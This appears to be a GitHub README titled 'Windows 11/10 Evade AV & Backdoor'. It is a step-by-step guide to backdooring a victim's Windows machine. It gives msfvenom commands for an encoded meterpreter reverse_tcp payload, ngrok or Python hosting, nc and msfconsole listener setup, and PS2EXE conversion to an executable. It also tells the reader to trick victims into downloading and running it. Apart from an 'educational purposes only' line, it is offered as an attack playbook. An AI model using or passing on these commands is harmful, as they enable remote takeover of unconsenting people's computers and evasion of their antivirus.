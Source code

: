 # Windows 11/10 Evade AV & Backdoor

#### **For educational purposes only!**
#### **Requires victim to have Admin Privs**

## Steps to Compromise:

1. **Setup Trojan Horse.** 
2. **Get creative and get victim to download .bat file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
3. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -i 2 -e cmd/powershell_base64 -f ps1
4. **Setup server in files directory:** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok, or python if local
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
6. **Base64 encode the trojan.ps1 script.** <br>
trojan.ps1 <br>
7. **Convert our encoded trojan.ps1 into .exe using PS2EXE.** <br>
encoded_trojan.ps1
8. **Get target to download and run trojan.exe(Powershell)**

# Demonstration Video
Insert video in markdown!
